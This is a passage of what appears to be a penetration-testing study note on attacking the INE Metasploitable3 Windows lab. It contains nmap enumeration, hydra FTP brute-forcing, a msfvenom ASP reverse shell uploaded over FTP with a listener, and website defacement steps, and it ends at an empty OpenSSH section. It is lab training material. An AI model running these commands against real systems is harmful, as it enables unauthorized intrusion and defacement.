 # 🔬Win Black Box Pentest

> 🔬 INE LAB - [Metasploitable3](https://github.com/rapid7/metasploitable3)
>
> * Target IP: `10.0.25.110`
> * **Metasploit Framework** is permitted

## Port Scanning & Enumeration <a href="#port-scanning-and-enumeration" id="port-scanning-and-enumeration"></a>

* Obtain the target `IP` address from the `/etc/hosts` file

```bash
cat /etc/hosts
ping 10.0.25.110
ping demo.ine.local
cd Desktop
mkdir Win2k8
cd WiWin2k8/ # To store all the notes and files about the target
```

<figure><img src="../../../../.gitbook/assets/image (249).png" alt=""><figcaption></figcaption></figure>

* **Port scanning** with `nmap`

```bash
nmap -sV 10.0.25.110
# Scans 1000 common ports
```

```bash
Not shown: 983 closed tcp ports (reset)
PORT      STATE SERVICE              VERSION
21/tcp    open  ftp                  Microsoft ftpd
22/tcp    open  ssh                  OpenSSH 7.1 (protocol 2.0)
80/tcp    open  http                 Microsoft IIS httpd 7.5
135/tcp   open  msrpc                Microsoft Windows RPC
139/tcp   open  netbios-ssn          Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds         Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3306/tcp  open  mysql                MySQL 5.5.20-log
3389/tcp  open  tcpwrapped
4848/tcp  open  ssl/http             Oracle Glassfish Application Server
7676/tcp  open  java-message-service Java Message Service 301
8080/tcp  open  http                 Sun GlassFish Open Source Edition  4.0
8181/tcp  open  ssl/intermapper?
9200/tcp  open  wap-wsp?
49152/tcp open  msrpc                Microsoft Windows RPC
49153/tcp open  msrpc                Microsoft Windows RPC
49154/tcp open  msrpc                Microsoft Windows RPC
49158/tcp open  msrpc                Microsoft Windows RPC

Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

* Perform an **advanced `nmap` scan** and export it into an `xml` file

```bash
nmap -T4 -PA -sC -sV -p 1-10000 10.0.25.110 -oX nmap_10k
# -T4 = Aggressive speed scan
# -PA = TCP ACK discovery
# -sC = default NSE scripts
# -sV = service version detection
# -p 1-10000 = ports range
# -oX = XML output file

# A full port range scan can be also done, not necessary here
# nmap -T4 -PA -sC -sV -p- 10.2.29.246 -oX nmap_all
```

* **`e.g.`** Extra `nmap` useful scans commands

```bash
nmap -T4 -PA -sC -sV -p- 10.0.25.110 -oX nmap_all
nmap -sU -sV 10.0.25.110 -oX nmap_udp
```

<figure><img src="../../../../.gitbook/assets/image (250).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (251).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (252).png" alt=""><figcaption></figcaption></figure>

Access the web server with a browser

* `http://10.0.25.110/`
* `http://10.0.25.110/hahaha.jpg`
* View page source

<figure><img src="../../../../.gitbook/assets/image (256).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (255).png" alt=""><figcaption></figcaption></figure>

* **Banner grabbing** on some services

```bash
nc -nv 10.0.25.110 21
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Connected to 10.0.25.110:21.
    220 Microsoft FTP Service
```

* Other webpages
  * `https://10.0.25.110:4848/`
  * `http://10.0.25.110:8080/`
  * `http://10.0.25.110:8484/`
  * `http://10.0.25.110:8585/`
    * `http://10.0.25.110:8585/wordpress/`
  * `http://10.0.25.110:9200/`

<figure><img src="../../../../.gitbook/assets/image (257).png" alt=""><figcaption><p><code>https://10.0.25.110:4848/</code></p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (258).png" alt=""><figcaption><p><code>https://10.0.25.110:8080/</code></p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (259).png" alt=""><figcaption><p><code>https://10.0.25.110:8484/</code></p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (261).png" alt=""><figcaption><p><code>https://10.0.25.110:8585/</code></p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (262).png" alt=""><figcaption><p><code>https://10.0.25.110:8585/wordpress/</code></p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (263).png" alt=""><figcaption><p><code>https://10.0.25.110:9200/</code></p></figcaption></figure>

### SMB Enumeration <a href="#smb-enumeration" id="smb-enumeration"></a>

<figure><img src="../../../../.gitbook/assets/image (267).png" alt=""><figcaption></figcaption></figure>

* **Import scan results in MSF** by creating a **dedicated workspace**

```bash
service postgresql start && msfconsole
```

```bash
db_status
setg RHOSTS 10.0.25.110
workspace -a Win2k8
db_import /root/Desktop/Win2k8/nmap_10k
    [*] Importing 'Nmap XML' data
    [*] Import: Parsing with 'Nokogiri v1.13.0'
    [*] Importing host 10.0.25.110
    [*] Successfully imported /root/Desktop/Win2k8/nmap_10k
```

```bash
hosts
services
use auxiliary/scanner/smb/smb_version
run
hosts
# Name of computer is correct now
```

<figure><img src="../../../../.gitbook/assets/image (266).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (265).png" alt=""><figcaption></figcaption></figure>

## Targeting <a href="#targeting" id="targeting"></a>

### [IIS / FTP](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/1-system-attack/windows-attacks/iis-webdav) <a href="#iis-ftp" id="iis-ftp"></a>

> Obtain the new target IP if the lab was restarted.
>
> Target IP: `10.0.18.177`
>
> Based on the FTP Enumeration:
>
> * `administrator`:`vagrant`
> * `vagrant`:`vagrant`

```bash
nmap -sV -sC -p 21, 80 10.0.18.177

# FTP is part of the Microsoft IIS package 
```

* Try `anonymous`:`anonymous` with FTP

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

* **Brute-force** the FTP server

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 10.0.18.177 ftp

# try to brute force for vagrant user also
hydra -l vagrant -P /usr/share/metasploit-framework/data/wordlists/unix_users.txt 10.0.18.177 ftp -I
```

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

> 📌 2 FTP users:
>
> * `administrator`:`vagrant`
> * `vagrant`:`vagrant`
>
> Remember to save these credentials for later use

```bash
ftp 10.0.18.177
# Use administrator:vagrant
```

<figure><img src="../../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

```bash
ftp> ls
    229 Entering Extended Passive Mode (|||49347|)
    125 Data connection already open; Transfer starting.
    10-28-21  07:22AM       <DIR>          aspnet_client
    10-28-21  07:19AM                   28 caidao.asp
    10-28-21  07:18AM                34251 hahaha.jpg
    10-28-21  07:18AM              1116928 index.html
    10-28-21  07:18AM              2439511 seven_of_hearts.html
    10-28-21  07:18AM               384916 six_of_diamonds.zip
    10-28-21  07:22AM               184946 welcome.png
    226 Transfer complete.

# Web server home directory
```

* IIS can execute `.asp` files
* Generate an `.asp` reverse shell payload and upload it with FTP

```bash
cd Desktop/Win2k8/
ifconfig
	10.10.21.2
	
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.21.2 LPORT=1234 -f asp > shell.aspx
```

```bash
ftp 10.0.18.177
# use vagrant:vagrant
put shell.aspx
```

<figure><img src="../../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

* Back to the `msfconsole` session tab

```bash
use multi/handler
set payload windows/shell/reverse_tcp
set LHOST 10.10.21.2
set LPORT 1234
run
```

* Open the browser and navigate to
  * `10.0.18.177/shell.aspx`
* In this case the reverse shell don't work.
*

    <figure><img src="../../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>
* The next step of an attacker can be to **deface the website** - modifying the web application

```bash
ftp 10.0.18.177
get index.html
# modify the index.html than upload the edited web page
put index.html
```

<figure><img src="../../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

* Open browser and navigate to `10.0.18.177`

<figure><img src="../../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

### [OpenSSH](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/3-metasploit/ssh-msf-exp) <a href="#openssh" id="openssh"></a>

> Obtain the new target IP if the lab was restarted.
>
> Target IP:&#x20;
>
> Based on the FTP Enumeration:
>
> * `administrator`:`vagrant`
> * `vagrant`:`vagrant`

